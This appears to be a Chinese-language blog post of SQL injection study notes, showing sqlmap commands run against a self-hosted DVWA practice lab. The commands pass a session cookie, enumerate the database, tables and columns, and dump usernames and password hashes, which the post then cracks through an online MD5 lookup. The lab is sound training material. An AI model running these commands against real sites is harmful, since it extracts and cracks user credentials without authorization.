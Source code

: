 ***<u>**sqlmap常用命令（环境为自身搭建的dvwa）**</u>***

<img src="{{ site.url }}/assets//blog_images/sql注入学习笔记_02.png" />

将环境设置为low等级



1.如果直接使用：sqlmap -u "http://172.16.60.101/vulnerabilities/sqli/?id=1&Submit=Submit#"的话，会产生302跳转到登录界面，所以这个时候要使用cookie进行注入（这个时候要配合bp进行使用）

构造如下：Sqlmap -u "http://172.16.60.101/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=s5ihi75i7t27b7ricatp80k4e4; security=low"（一定要注意在bp中cookie已经有了，不然url构造的时候会显示错误的，到时候你的cookie显示不正确，还是会遇到302跳转的问题）

<img src="{{ site.url }}/assets//blog_images/sql注入学习笔记_03.png" />

二话不说，上去就是一梭子：

```
Sqlmap -u "http://172.16.60.101/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=s5ihi75i7t27b7ricatp80k4e4; security=low" --current-db$（获取当前使用的用户数据库）
```

<img src="{{ site.url }}/assets//blog_images/sql注入学习笔记_04.png" />

知道了当前的数据库是：dvwa

再来：

```
Sqlmap -u "http://172.16.60.101/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=s5ihi75i7t27b7ricatp80k4e4; security=low" -D dvwa --tables（获取dvwa用户中的表）
```

<img src="{{ site.url }}/assets//blog_images/sql注入学习笔记_05.png" />

```
 Sqlmap -u "http://172.16.60.101/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=s5ihi75i7t27b7ricatp80k4e4; security=low" -D dvwa -T users --columns（获取当前dvwa用户中users表的所有列）
 
```

<img src="{{ site.url }}/assets//blog_images/sql注入学习笔记_06.png" />

```
[root@Hacker~]# Sqlmap -u "http://172.16.60.101/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=s5ihi75i7t27b7ricatp80k4e4; security=low" -D dvwa -T users -C user_id,user,password --dump（获取当前dvwa用户users表中user_id,user,password中的所有的字段）
```

<img src="{{ site.url }}/assets//blog_images/sql注入学习笔记_07.png" />

然后使用在线查md5（推荐一个：https://www.somd5.com/）

查可得：

<img src="{{ site.url }}/assets//blog_images/sql注入学习笔记_08.png" />

